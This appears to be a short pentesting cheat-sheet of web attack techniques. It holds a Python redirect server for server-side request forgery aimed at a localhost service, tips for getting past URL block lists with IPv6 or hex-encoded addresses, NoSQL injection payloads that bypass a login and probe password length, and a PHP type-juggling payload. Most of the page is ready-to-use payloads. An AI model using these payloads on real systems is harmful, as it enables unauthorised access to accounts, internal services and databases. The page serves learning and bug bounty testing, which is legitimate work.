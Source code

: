 ```python
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', "http://127.0.0.1:3000/")
      self.end_headers()


HTTPServer(("0.0.0.0", 8081), Redirect).serve_forever()
```

ipv6 url might bypass url block

hex encoded IP ADDRESS might do too


## nosql injection

**source**:
https://book.hacktricks.xyz/pentesting-web/nosql-injection

to bypass login we can check for a nosql injection here is how:


`username[$ne]=toto&password[$ne]=toto`

or, more efficiently, we can try by **changing the request type to application/json** to **then** insert this payload

`{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }`

```json
{
   "username":{
      "$ne":"foo"
   },
   "password":{
      "$ne":"bar"
   }
}
```

to extract lenght info:

`username[$ne]=toto&password[$regex]=.{1}`

we can even dump database with the help of some scripts online!


## type confusion/type juggling

this is a php magic trick that some times works! (try it on bug bounty too if you want)

```json
{
  "type": true
}
```
